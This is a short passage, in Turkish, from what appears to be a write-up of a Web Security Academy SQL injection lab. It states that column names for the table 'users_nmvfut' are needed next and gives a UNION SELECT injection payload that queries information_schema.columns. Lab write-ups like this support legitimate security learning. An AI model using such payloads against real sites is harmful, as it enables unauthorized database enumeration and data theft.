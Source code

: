 ![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2023.png)

Bu kısımdan sonra da “users_nmvfut” için tablo kolon isimlerini öğrenmemiz gerekiyor. 

```html
mdisec' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users_nmvfut' -- addf
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2024.png)
